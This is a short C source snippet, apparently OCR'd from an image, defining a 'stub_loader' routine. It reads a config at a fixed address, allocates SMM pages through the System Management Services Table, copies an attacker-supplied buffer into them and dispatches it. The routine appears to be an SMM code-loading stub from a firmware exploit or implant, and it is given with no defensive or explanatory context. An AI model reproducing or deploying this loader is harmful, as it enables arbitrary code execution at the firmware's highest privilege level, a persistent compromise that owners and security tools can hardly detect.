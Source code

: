 <div class="example">
</div>
```
__int64 stub_loader(void)
{
  PCONFIG c = (PCONFIG)(0x600);

  if (!c->CommBuffer)
  {
    return -1;
  }

  if (c->DispatchFunction)
  {
    typedef void(__stdcall* tDispatch)(PCONFIG);

    tDispatch dispatch = (tDispatch)c->DispatchFunction;
    dispatch(c); 
    return -1;
  }

  if (!c->DispatchFunction)
  {
    c->CommBuffer->ret = 0xFF;

    if (!c->CommBuffer->source || c->CommBuffer->size < 1)
    {
      c->CommBuffer->ret = 0xFE;
      return -1;
    }

    if (!c->SMST)
    {
      c->CommBuffer->ret = 0xFD;
      return -1;
    }

    UINT64 dispatch = 0;
    EFI_STATUS ret = 0;

    if (!c->SMST->SmmAllocatePages(__AllocateAnyPages, __EfiRuntimeServicesCode, 1, &dispatch))
    {
      c->DispatchFunction = dispatch;
      unsigned char* destination = (unsigned char*)c->DispatchFunction;
      for (int len = 0; len < c->CommBuffer->size; len++)
        destination[len] = ((unsigned char*)c->CommBuffer->source)[len];

      c->CommBuffer->ret = 0x0;

      return -1;
    }
    else
    {
      c->CommBuffer->ret = 0xEE;
    }
  }
  return -1;
}
```
